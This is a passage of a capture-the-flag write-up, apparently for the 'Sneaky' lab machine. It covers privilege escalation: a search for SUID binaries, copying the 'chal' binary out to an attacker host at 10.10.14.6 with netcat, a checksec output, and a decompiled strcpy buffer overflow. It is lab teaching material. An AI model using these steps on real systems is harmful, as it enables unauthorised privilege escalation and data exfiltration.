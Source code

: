 
# Privilege Escalation

Find files with `SUID` bit set.

```bash
thrasivoulos@Sneaky:~$ find / -perm -4000 2>/dev/null
/bin/umount
/bin/su
/bin/mount
/bin/ping6
/bin/fusermount
/bin/ping
/usr/local/bin/chal
...
```

There is an interesting file called `chal`. Lets copy the file out.

```bash
thrasivoulos@Sneaky:~$ base64 /usr/local/bin/chal > /tmp/chal.b64

kali nc -l -p 1234 > chal.b64

thrasivoulos@Sneaky:~$ nc -w 3 10.10.14.6 1234 < /tmp/chal.b64

kali❯ base64 -d chal.b64 > chal
kali❯ chmod +x chal
kali❯ ./chal
zsh: segmentation fault  ./chal

kali❯ checksec chal
[*] 'chal'
    Arch:       i386-32-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX unknown - GNU_STACK missing
    PIE:        No PIE (0x8048000)
    Stack:      Executable
    RWX:        Has RWX segments
    Stripped:   No
```

Viewing the binary in Ghidra shows the following `main` source code.

```c
undefined4 main(undefined4 param_1,int param_2)

{
  char local_16e [362];
  
  strcpy(local_16e,*(char **)(param_2 + 4));
  return 0;
}
```
